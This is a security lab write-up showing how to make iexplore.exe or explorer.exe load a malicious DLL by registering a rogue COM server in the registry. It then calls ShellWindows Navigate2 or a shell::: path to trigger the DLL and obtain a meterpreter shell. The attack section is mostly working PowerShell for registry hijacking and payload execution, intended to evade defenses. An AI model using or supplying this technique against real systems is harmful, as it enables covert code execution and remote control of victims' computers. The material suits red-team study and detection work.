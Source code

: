 # Forcing Iexplore.exe to Load a Malicious DLL via COM Abuse

It's possible to force iexplore.exe \(or explorer.exe\) to load a malicious DLL and execute it - a technique which could be used when attempting to evade certain defenses.

The technique works as follows:

* An attacker creates a malicious DLL that he wants iexplore.exe to load and execute - I used a meterpreter payload in this lab
* On a victim system, the attacker defines a new COM server by creating the required keys and values in the registry. The previously created malicious DLL will be set to handle the COM client calls. In our case, the DLL will only perform one action - it will execute the meterpreter shellcode upon load
* On a vitim system, the attacker uses an existing `ShellWindows` \(iexplore or explorer\) COM server `9BA05972-F6A8-11CF-A442-00A0C90A8F39`to call our malicious COM server by simply navigating to it
* Iexplore.exe loads the malicious DLL
* Attacker catches the meterpreter shell

This technique _requires_ iexplore.exe to be running on the target system :\)

See [https://labs.nettitude.com/blog/com-and-the-powerthief/](https://labs.nettitude.com/blog/com-and-the-powerthief/) by Rob Maslen for more details on why this technique works.

## Execution

Below is a powershell code that creates a new COM object with a randomly chosen CLSID `55555555-5555-5555-5555-555555555555` which registers our malicious DLL at `\\VBOXSVR\Experiments\evilm64.dll` to handle incoming calls from COM clients:

{% code title="attacker@victim" %}
```csharp
# Code borrowed from https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1 by Rob Maslen
$CLSID = "55555555-5555-5555-5555-555555555555"
Remove-Item -Recurse -Force -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" -ErrorAction SilentlyContinue

# path to the malicious DLL we want iexplore to load and execute
$payload = "\\VBOXSVR\Experiments\evilm64.dll"
New-Item -Path "HKCU:\Software\Classes\CLSID" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "ThreadingModel" -Value "Apartment" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "LoadWithoutCOM" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "HideOnDesktop" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "Attributes" -Value 0xf090013d -PropertyType DWORD | Out-Null
```
{% endcode %}

Once run, we can see that the new COM object got created successfully in the registry:

![](../../.gitbook/assets/annotation-2019-06-15-165723.png)

We are now ready to execute the payload with the below powershell. What happens here is:

* We're requesting a new instance of the `ShellWindows` `(9BA05972-F6A8-11CF-A442-00A0C90A8F39)` COM object, which actually applies to both explorer.exe and iexplore.exe, meaning with a handle to that object, we can interface with them using their exposed methods
* Specifically, we are interested in getting an instance of a COM object for iexplore.exe, because its COM server has a method `Navigate2(...)` exposed. The `Navigate2` allows us to programatically instruct the iexplore.exe to navigate to a URL. 
* We are asking iexplore to navigate to our newly created malicious CLSID pointing to our DLL instead of a URL:

{% code title="attacker@victim" %}
```csharp
# force iexplore to load the malicious DLL and execute it
$shellWinGuid = [System.Guid]::Parse("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}")
$typeShwin = [System.Type]::GetTypeFromCLSID($shellWinGuid)
$shwin = [System.Activator]::CreateInstance($typeShwin) | ? {$_.fullname -match 'iexplore'} | Select-Object -First 1
$shWin.Navigate2("shell:::{$CLSID}", 2048)
```
{% endcode %}

Code execution in action, resulting in a meterpreter session:

![](../../.gitbook/assets/iecomhijacking.gif)

## Shell:::

As a fun bonus, it's possible to call our malicious COM object via explorer by navigating to  
`shell:::{55555555-5555-5555-5555-555555555555}` which forces the explorer.exe to load our malicious DLL:

![](../../.gitbook/assets/annotation-2019-06-15-174905.png)

...and results in a meterpreter shell:

![](../../.gitbook/assets/explorerhijack.gif)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/component-object-model--com--portal" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752094\(v%3Dvs.85\)" caption="" %}

{% embed url="https://labs.nettitude.com/blog/com-and-the-powerthief/" caption="" %}


